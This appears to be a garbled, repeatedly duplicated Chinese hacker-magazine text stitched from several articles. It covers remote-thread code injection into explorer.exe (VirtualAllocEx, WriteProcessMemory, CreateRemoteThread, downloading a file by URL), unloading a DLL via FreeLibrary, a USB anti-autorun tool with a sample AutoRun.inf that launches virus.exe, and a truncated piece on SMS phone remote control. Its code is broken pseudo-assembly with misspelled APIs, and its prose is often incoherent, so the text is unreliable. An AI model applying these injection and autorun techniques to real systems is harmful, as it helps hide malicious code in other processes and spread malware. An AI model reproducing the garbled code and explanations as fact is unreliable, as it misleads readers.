远程线程必须正确加载了对应的 DLL，并且还要知道 API 的地址才能调用，远程线程是在代码中编写的。通常像现在用 API 名直接使用 API，最后找到 API 的地址是目标进程的地址，不同进程由于 DLL 数量的不同，API 的地址一样，所以在远程线程中不能直接使用 API，然后要用 `LoadLibrary`、`GetProcAddress` 和 `GetModuleHandle` 这三个 API 获取目标进程的地址，但是这三个 API 的地址从哪里获取呢？还有这三个 API 又是 `kernel32` 的，所有程序加载 `kernel32` 时都会加载同一个位置，因此在本地线程中获取这三个 API 地址用于远程线程。第二个问题是重定位的问题，我们该如何解决这个问题是如何重定位问题，看下面的代码。

```asm
dwordVar d0
mov eax,dwordVar
```

封装机器码，其形式为



```
REMOTE_CODE_END eq this by:
REMOTE_CODE_LENGTH eq offset
REMOTE_CODE_END = offset REMOTE_CODE_START;
```


# PROGRAMMING Analysis

```
REMOTE_CODE_END eq this by:
REMOTE_CODE_LENGTH eq offset
REMOTE_CODE_END = offset REMOTE_CODE_START;
```

```
break
def
invoke Process3Next(exbx,offset, stProcess)
endw
invoke CloseHandle(exbx)
if esi // 不等于explore,则结束程序
jmp @F
def
invoke OpenProcess(ALL_ACCESS,FALSE,stProcess,thProcessID)
if eax
mov ebx
invoke VirtualAlloc(exbx,NULL,REMOTE_CODE_LENGTH,MEM_COMMIT,PAGE_EXECUTE_READ)
```

下面的代码负责将`RemoteCode.asm`插入到`explore.exe`运行。

```
.586
.model stdcall
option cname
include windows
include kernel32.dll
include user32.lib
includeib kernel32.lib
includeib user32.lib
szLibraryA = "LoadLibraryA\0"
szGetProcessAddress = "GetProcessAddress\0"
szModuleHandleA = "GetModuleHandleA\0"
szie = "CreateThread\0"
szint = "VirtualAllocEx\0"
szdetail = "WriteProcessMemory\0"
start
; 创建远程线程,ID: %d
; 在目标进程中获取LoadLibraryA
GetProcessAddress
; 在目标进程中获取GetProcessAddress
GetModuleHandleA
; 在目标进程中获取GetModuleHandleA
PROCESS32 = 128 dup( )
```

```
if esi
申请参数
mov ebx
invoke WriteProcessMemory(embx,edi,offset)
写入内容
invoke WriteProcessMemory(embx,edi,offset)
AddLibrary.sizeof dword * 3
; 调用API函数
add edi,edi, ThreadFunc - offset
REMOTE_CODE_START
; 检查远程线程启动地址
invoke CreateThread(NULL,NULL,NULL,edi,0,dwThreadID)
; 创建远程线程
if eax
printf(szfmt, "Offset: %p",GetLowWord(dwThreadID))
MessageBox(NULL,szMessageBox,sztitle,MB_OK)
end
```

```
include RemoteCode.asm
invoke GetModuleHandle(offset,szkernel32)
mov ebx
invoke GetProcessAddress(edi,szLibraryA)
mov ebx
AddLibrary.edi
invoke GetProcessAddress(edi,szGetProcessAddress)
mov ebx
invoke GetProcessAddress(edi,szModuleHandleA)
mov ebx
invoke Process32First(stProcess,&stProcess)
invoke CreateTool32Snapshot(0,0)
; 0表示遍历进程,遍历explore.exe
while
mov ebx
invoke CharLower(handle,offset,stProcess.exeFile)
; 将字符串转换为小写
invoke lstrncmp(offset,explore.exe,stProcess.exeFile)
if eax // 不等于explore,则退出循环
```

在`RemoteCode.asm`中，远程线程`ThreadFunc-`用到了我们前面的本地地址。这种方法是直接使用远程地址的，这种不需要`invoke`了，因为不知道哪个地址对应哪一个，通过查找方法检查进程号，所以用函数参数指向 API 地址。

另外，从 URL 下载的文件在`URL.exe`中，由于已经加载了`Jurlmon.dll`，所以可以直接读取`URLDownloadOfFile`的地址。如果需要获取目标进程的 API 地址，地址在 DLL 中没有加载，则需要先加载`local.library`的。

主程序-开始在目标中下载了`Library`，并保存，`GetProcessAddress`和`GetModuleHandleA`的函数还需要使用`GetProcessAddress`获取某个 API 地址时：

```
invoke CloseHandle(exbx)
end
invoke CloseHandle,ebx
end
invoke ExitProcess(0)
```



要获取的是 ANSI 版本还是 Unicode 版本呢，获取 ANSI 版本是`libraryA`，不是`libraryB`，`Kernel32.dll`没有`libraryB`，而是`libraryA`和`libraryW`，这些信息可以通过 MSDN 工具来查看`Kernel32.dll`的导出函数，用`ToolHelp32`函数检索到`explore.exe`，然后打开，打开程序时需要足够的权限，否则可能无法申请权限或无法运行程序了，为了安全，我指定`PROCESS_ALL_ACCESS`为所有权限，在`explore.exe`中申请内存，这里申请的内容可以是：

程序编写为了我们测试一下，打开`EI`，然后运行这个程序就能看到效果了，所示：



| Name | Address | Size | Type | Initial | Max Size |
| :--- | :--- | :--- | :--- | :--- | :--- |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |


# PROGRAMMING ANALYSIS

要获取的是 ANSI 版本还是 Unicode 版本呢，获取 ANSI 版本是 `libraryA`，不是 `libraryB`，`Kernel32.dll` 没有 `libraryB`，而是 `libraryA` 和 `libraryW`，这些信息可以通过 MSDN 工具来查看 `Kernel32_dll` 的导出函数，用 `ToolHelp32` 函数检索到 `explore.exe`，然后打开，打开程序时需要足够的权限，否则可能无法申请权限或无法运行程序了，为了安全，我指定 `PROCESS_ALL_ACCESS` 为所有权限，在 `explore.exe` 中申请内存，这里申请的内容可以是：

程序编写为了我们测试一下，打开 EI，然后运行这个程序就能看到效果了，所示：


| Name | Address | Size | Type | Initial | Max Size |
| :--- | :--- | :--- | :--- | :--- | :--- |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |
| kernel32.dll | 0x70000000 | 0x00050000 | image | 0x00000000 | 0x00000000 |

下面的代码负责将 `RemoteCode.asm` 插入到 `explore.exe` 运行。

```
REMOTE_CODE_END eq this by:
REMOTE_CODE_LENGTH eq offset
REMOTE_CODE_END = offset REMOTE_CODE_START;
```

```
break
def
invoke Process3Next(exbx,offset, stProcess)
endw
invoke CloseHandle(exbx)
if esi // 不等于explore,则结束程序
jmp @F
def
invoke OpenProcess(ALL_ACCESS,FALSE,stProcess,thProcessID)
if eax
mov ebx
invoke VirtualAlloc(exbx,NULL,REMOTE_CODE_LENGTH,MEM_COMMIT,PAGE_EXECUTE_READ)
```

```
.586
.model stdcall
option cname
include windows
include kernel32.dll
include user32.lib
includeib kernel32.lib
includeib user32.lib
szLibraryA = "LoadLibraryA\0"
szGetProcessAddress = "GetProcessAddress\0"
szModuleHandleA = "GetModuleHandleA\0"
szie = "CreateThread\0"
szint = "VirtualAllocEx\0"
szdetail = "WriteProcessMemory\0"
start
; 创建远程线程,ID: %d
; 在目标进程中获取LoadLibraryA
GetProcessAddress
; 在目标进程中获取GetProcessAddress
GetModuleHandleA
; 在目标进程中获取GetModuleHandleA
PROCESS32 = 128 dup( )
```

```
if esi
申请参数
mov ebx
invoke WriteProcessMemory(embx,edi,offset)
写入内容
invoke WriteProcessMemory(embx,edi,offset)
AddLibrary.sizeof dword * 3
; 调用API函数
add edi,edi, ThreadFunc - offset
REMOTE_CODE_START
; 检查远程线程启动地址
invoke CreateThread(NULL,NULL,NULL,edi,0,dwThreadID)
; 创建远程线程
if eax
printf(szfmt, "Offset: %p",GetLowWord(dwThreadID))
MessageBox(NULL,szMessageBox,sztitle,MB_OK)
end
```

```
include RemoteCode.asm
invoke GetModuleHandle(offset,szkernel32)
mov ebx
invoke GetProcessAddress(edi,szLibraryA)
mov ebx
AddLibrary.edi
invoke GetProcessAddress(edi,szGetProcessAddress)
mov ebx
invoke GetProcessAddress(edi,szModuleHandleA)
mov ebx
invoke Process32First(stProcess,&stProcess)
invoke CreateTool32Snapshot(0,0)
; 0表示遍历进程,遍历explore.exe
while
mov ebx
invoke CharLower(handle,offset,stProcess.exeFile)
; 将字符串转换为小写
invoke lstrncmp(offset,explore.exe,stProcess.exeFile)
if eax // 不等于explore,则退出循环
```

在 `RemoteCode.asm` 中，远程线程 `ThreadFunc`- 用到了我们前面的本地地址。这种方法方法是直接使用远程地址的，这种不需要 `invoke` 了因为不知道哪个地址对应哪一个，通过查找方法检查进程号，所以用函数参数指向 API 地址。另外，从 URL 下载的文件在 `URL.exe` 中，由于已经加载了 `Jurlmon.dll`，所以可以直接读取 `URLDownloadOfFile` 的地址。如果需要获取目标进程的 API 地址地址在 DLL 中没有加载，则需要先加载 `local.library` 的。

主程序-开始在目标中下载了 `Library`，并保存，`GetProcessAddress` 和 `GetModuleHandleA` 的函数还需要使用 `GetProcessAddress` 获取某个 API 地址时：

```
invoke CloseHandle(exbx)
end
invoke CloseHandle,ebx
end
invoke ExitProcess(0)
```


```asm
include RemoteCode.asm
invoke GetModuleHandle(offset,szkernel32)
mov ebx
invoke GetProcessAddress(edi,szLibraryA)
mov ebx
AddLibrary.edi
invoke GetProcessAddress(edi,szGetProcessAddress)
mov ebx
invoke GetProcessAddress(edi,szModuleHandleA)
mov ebx
invoke Process32First(stProcess,&stProcess)
invoke CreateTool32Snapshot(0,0)
; 0表示遍历进程,遍历explore.exe
while
mov ebx
invoke CharLower(handle,offset,stProcess.exeFile)
; 将字符串转换为小写
invoke lstrncmp(offset,explore.exe,stProcess.exeFile)
if eax // 不等于explore,则退出循环
```

在 `RemoteCode.asm` 中，远程线程 `ThreadFunc-` 用到了我们前面的本地地址。这种方法方法是直接使用远程地址的，这种不需要 `invoke` 了因为不知道哪个地址对应哪一个，通过查找方法检查进程号，所以用函数参数指向 API 地址。另外，从 URL 下载的文件在 `URL.exe` 中，由于已经加载了 `Jurlmon.dll`，所以可以直接读取 `URLDownloadOfFile` 的地址。如果需要获取目标进程的 API 地址地址在 DLL 中没有加载，则需要先加载 `local.library` 的。

主程序-开始在目标中下载了 `Library`，并保存，`GetProcessAddress` 和 `GetModuleHandleA` 的函数还需要使用 `GetProcessAddress` 获取某个 API 地址时：

```asm
invoke CloseHandle(exbx)
end
invoke CloseHandle,ebx
end
invoke ExitProcess(0)
```

www.hacker.com

《汇编》2008 教程第6版 内部

第64


# PROGRAMMING Analysis

要获取的是 ANSI 版本还是 Unicode 版本呢，获取 ANSI 版本是 `libraryA`，不是 `libraryB`，`Kernel32.dll` 没有 `libraryB`，而是 `libraryA` 和 `libraryW`，这些信息可以通过 MSDN 工具来查看 `Kernel32_dll` 的导出函数，用 `ToolHelp32` 函数检索到 `explore.exe`，然后打开，打开程序时需要足够的权限，否则可能无法申请权限或无法运行程序了，为了安全，我指定 `PROCESS_ALL_ACCESS` 为所有权限，在 `explore.exe` 中申请内存，这里申请的内容可以是：

程序编写为了我们测试一下，打开 `EI`，然后运行这个程序就能看到效果了，所示：


| Name | Address | Size | Type | Initial | Max Size |
| :--- | :--- | :--- | :--- | :--- | :--- |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |
| `kernel32.dll` | `0x70000000` | `0x00050000` | image | `0x00000000` | `0x00000000` |

# PROGRAMMING ANALYSIS

```cpp
// 加载动态 DLL
hModule=Module32First(hNULL,&meModule32)
do{
	if(strcmp(meModule32.szExePath,arg(2)))
	break;
}
while(Module32Next(hModule,&meModule32));
```

我们找到了这个模块后就是最后一步了，就是我们要加载的 DLL 文件，方法是使用 `FreeLibrary()`。DLL数据需要处理的进程文件可以使用远程线程来调用 `FreeLibrary()`;远程线程的 `CreateRemoteThread()` 函数，大家见过这个函数并且它是线程吗？如果要创建一个线程，这个线程函数是如何定义的？看看线程函数定义的格式。

| 模块名称 | 虚拟地址 | 物理地址 | 大小 | 状态 | 权限 | 类型 |
| --- | --- | --- | --- | --- | --- | --- |
| `test.exe` | `0x00000000` | `0x00000000` | `0x00015000` | 1 | `RWE` | image |
| `kernel32.dll` | `0x00000000` | `0x00000000` | `0x00050000` | 1 | `RX` | image |
| `user32.dll` | `0x00000000` | `0x00000000` | `0x00030000` | 1 | `RX` | image |
| `ntdll.dll` | `0x00000000` | `0x00000000` | `0x000A0000` | 1 | `RX` | image |
| `GDI32.dll` | `0x00000000` | `0x00000000` | `0x00020000` | 1 | `RX` | image |
| `ADVAPI32.dll` | `0x00000000` | `0x00000000` | `0x00040000` | 1 | `RX` | image |
| `shell32.dll` | `0x00000000` | `0x00000000` | `0x00020000` | 1 | `RX` | image |
| `wsbase.dll` | `0x00000000` | `0x00000000` | `0x00010000` | 1 | `RX` | image |

图1

程序会退出的，在360安全卫士中看不到这个 DLL 文件了，见图2。

```cpp
WINAPI ThreadCreate(
    LPVOID lpParameter; // thread ...
```

感觉什么了？对！就是它 `FreeLibrary()`。它有一个参数，只要只需要一个参数，我只需要拿到 `FreeLibrary()` 的地址，加载的 DLL 文件在远程进程中传递的地址，如下：

```cpp
hModule=GetModuleHandle("kernel32.dll");
THREAD_START_ROUTINE pStartThread=
(THREAD_START_ROUTINE)GetProcAddress(hModule,"FreeLibrary");
hRemoteThread=CreateRemoteThread(hProcess,NULL,0,pStartThread,lpRemoteThread,0,hThread);
WaitForSingleObject(hThread,INFINITE);
```

我们要创建这个进程这就制造成功了，虽然数量复杂，更是创建的过程我们可以中学到很多呢。下面我来演示一下这个进程的操作，打开一个进程，名为 `notepad.exe`，当360安全启动后，我们加载了我们的 DLL，通过远程的方法在命令行执行命令 `system32 notepad.exe`。



图2

虽然我们整个进程已经完成了，但有一个问题，就是执行一个 `unload notepad.exe <WINDOWS\system32>` 后没有被卸载我们要加载的 DLL 文件的问题。要我们来计数4个数字，这个问题我觉得是在调用函数 `CreateRemoteThread()` 函数后去释放它所有进程的 DLL 直到没有？这可能是这种方法的缺陷了。

这条路并不难走，除了这种方法外，还有更好的方法呢？就用自己写一个函数，定义一个结构作为线程的参数，把 `FreeLibrary()` 和 DLL 文件作为参数传递到远程进程中。当此时，就需要用 `VirtualAllocEx()` 和 `WriteProcessMemory()` 步骤就简单了，而且更复杂的、具体的实现大家去试试吧？这种方法我也试过了，但如果有可以解决的办法，麻烦与我分享，感谢各位们！

# PROGRAMMING ANALYSIS

程序员解析 | socket@hacker.com | 第7期

## 也为VC打造U防火墙

/文/邓亮术[S.U]



适合读者：编程爱好者、病毒爱好者

前置知识：VC

编写这个程序是受病毒袭击后的第一个！趁着写的《VC打造U防火墙》一文的后面，后来在3期有两位作者也看了U防火墙，所以我想把我的经历以及此程序拿出来和大家交流分享一下：

用VC打造一个U防火墙吧！

经验使用者的结论是，有很多病毒可以运行光盘自动启动的，它是做到的呢？这需要两个文件来实现，一个是 `AutoRun.inf` 文件，另一个是病毒程序文件 `svcmd.exe`，`svcmd.exe` 会检测到光盘插入后自动运行的病毒。如果有的话，如何阻止光盘自动启动的 `AutoRun.inf` 呢？在U盘文件的里面的属性进行修改，比如：当U盘中存在 `AutoRun.inf` 文件后，点击它就会自动运行程序，或者在U盘运行之前，我们在点击右键标签上的属性，然后就会出现一个弹窗菜单，或者在盘上点击右键就能阻止这样的事件。

这就是一个U防火墙的雏形。虽然这对于病毒可能还不够。通过构造一个 `AutoRun.inf` 文件，可以在双击U盘时，阻止自动运行U盘的病毒。或者在用户点击打开时，自动运行病毒的病毒。当然，在 Windows2000 的系统里，没有双击等操作，系统就可以运行它。一个功能比较完善的 `AutoRun.inf` 文件如下：

```ini
[autrun]
open=virus.exe
execute=virus.exe // 自动运行
open=virus.exe
execute=virus.exe // 自动运行，在“我的电脑”中
open=virus.exe
execute=virus.exe // 自动运行，在“属性”中
```

如果在U盘目录下存在 `virus.exe` 的话，这样很容易被避免掉吗？确实是个主意！平时并没有考虑到病毒的特性，特别是这种特性。杀它还有什么办法呢？这里分享实用的四种方法来实现U盘上的病毒：

- 双击方法，点击“打开”

- 三击方法，点击“我的电脑”后点击“属性”

- 在左侧点击“安全”

《VC打造U防火墙》文章列出了U盘中的病毒的方法，`AutoRun.inf` 方案，在盘上可行。我最大的经验是没有尝试过这种病毒代码，参考了大量的病毒代码，以及重点的是点击“安全”后对应的病毒。如图所示。大家要注意防护！当点击这个按钮，在左侧点击了病毒后，再点击“安全”，就能对应的病毒。

# PROGRAMMING ANALYSIS

程序员解析 | 版权所有 ©2008

### 关于文章

| 安全软件 | 防病毒 | 清理 |
| --- | --- | --- |
| | | |

都是U盘文件删除，这样就可以事实了。其实，病毒可能会被彻底删掉，想想，`Auto.run` 是一个自动启动并自运行的，即使病毒在插入之后，这个文件还是存在的。这样说，你需要U盘防护专门设计了按钮，防止手动操作。检测到U盘时，以安全的方式打开它，我都帮你了。功能就很实用，比如用 `Execute` 按钮，`O`、`N`、`SW`、`SHOW` 就能打开U盘。另外，我们在检测U盘中是否存在 `Auto.run` 文件，还能对 `Auto.run` 进行识别，并且完全杀毒。代码如下：

```cpp
if (CheckAutorun(Name, &Value))
    char AutoPath[240] = "";
    strcpy(AutoPath, Value);
    AutoRunInfo info;
    if (CheckAutorun(AutoPath, &info, rcMode=0)) return -1;
    // 删除文件
    char lpPath[240] = "";
    DeleteFile(lpPath);
    AutoRun.Close();
    AutoRun.Open();
    // 从头查找下一个Auto.run
    int index=0;
    while ((index = AutoRun.Find("Auto.run", index)) != -1) {
        index++;
        // 检查4个字符
        if (AutoRun.GetAtIndex(index)[4]=='o') {
            for (i=0; i<AutoRun.GetAtIndex(index).Length(); i++)
                VarPath[i]=AutoRun.GetAtIndex(index)[i];
            AutoRun.GetAtIndex(index);
            VarPath=AutoRun.GetAtIndex(index);
            if (VirusFind(VarPath,"*v*")!=1|| VirusFind(VarPath,"*bat*")) return 2;
            if (VirusFind(VarPath,"*exe*")!=1|| VirusFind(VarPath,"*cmd*")) return 3;
        }
    }
```

这个功能就是先将 `Auto.run` 识别到一个 `CString` 变量，然后把病毒删除，这样可以运行了，但是要注意防止误删！程序运行后，当在U盘中发现病毒时，会显示出一个对话框并提示清理。点击“清理U盘”按钮，系统会自动记录并将 `Auto.run` 文件路径，尝试杀毒它。



| 病毒名：`Auto.run` | 发现后：弹出对话框 |
| --- | --- |
| 扫描软件：XX | 选项：清理U盘 忽略 |

至于对于病毒的具体表现，我们可以看到U盘的渲染，另外这个程序还可以设置自动启动启动时自动扫描整个系统盘。一种统一的病毒防护方法有了，而且本文所涉及的所有病毒的内容，都适用于移动硬盘、MP3 SD卡等介质硬件。有了这个程序以后，再也不需要学习杀毒U盘了。强烈推荐每个用户家庭都使用它！

www.hacker.com ©2006-2010 博客作者：郭杰森博客上

## 实现编程手机

适合者：编程爱好者

前置知识：VC

## 实现远程控制手机



随着通信技术的飞速发展，3G时代的到来给我们的生活方式带来了巨大的变化。智能手机与计算机网络的完美结合，使得我们能够更加方便地访问信息资源。对于现在的手机用户来说，2.5G的PRS（通用移动无线服务）还能达到足够的通信速率，让我们可以随时访问计算机，我们可以利用短信手机来实现手机的远程控制。

我们理想的短信手机吗？话费是10元/月，不过提供了3天的试用期，哈，有钱的每月掏，没钱的（羡慕我）就够用了。

短信手机远程控制的实现原理是使用自己的手机作为一条信号发送给控制，控制手机远程控制。手机的远程控制的实现代码，，，短信手机控制手机。

```cpp
//
```


```cpp
WINAPI ThreadCreate(
    LPVOID lpParameter; // thread ...
```

```cpp
LPVOID lpRemoteThread = NULL;
